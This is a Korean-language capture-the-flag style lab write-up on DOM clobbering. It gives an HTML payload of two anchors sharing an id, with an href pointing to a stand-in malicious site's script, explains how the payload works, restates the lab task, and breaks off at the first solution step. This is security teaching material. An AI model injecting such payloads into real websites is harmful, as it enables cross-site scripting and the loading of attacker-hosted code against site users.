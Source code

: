 위의 코드를 exploit 하려면, 다음과 같은 HTML을 삽입하여 앵커 엘레먼트로 `someObject`의 참조를 두들겨 팰 수 있다. 


```html
<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>
```

설명
- 두 개의 앵커가 동일한 ID를 사용하고 있기 때문에, DOM은 이들을 DOM 컬렉션으로 그룹핑한다.
- 그 후에 DOM Clobbering 벡터는 DOM 컬렉션의 `someObject`의 참조를 덮어쓴다. 
- 두 번째의 앵커에는 `name`속성이 사용되어 있다. 이는 `someObject`의 `url`속성을 두들겨 패기 위함이다. 덮여쓰여지는 `url`속성은 외부 사이트의 스크립트를 가리키고 있다. 

# 문제 개요
- 이 랩에는 DOM-clobbering 취약점이 있다. 
- 댓글 기능은 "안전한" HTML을 허용한다. 
- 랩을 풀려면, HTML 삽입을 통해 변수를 클로버링하여, XSS를 수행하여 alert함수가 실행되도록 하라. 
- 주의: 랩에서 의도한 해결책은 Chrome에서만 동작한다.

```
This lab contains a DOM-clobbering vulnerability. The comment functionality allows "safe" HTML. To solve this lab, construct an HTML injection that clobbers a variable and uses XSS to call the alert() function.

Note
Please note that the intended solution to this lab will only work in Chrome.
```

# 풀이
1. 랩을 살펴보고 취약한 부분을 찾는다. 블로그의 포스트 글을 보면 답글 남기는 폼이 있다. HTML은 허용된다고 적혀있다. 
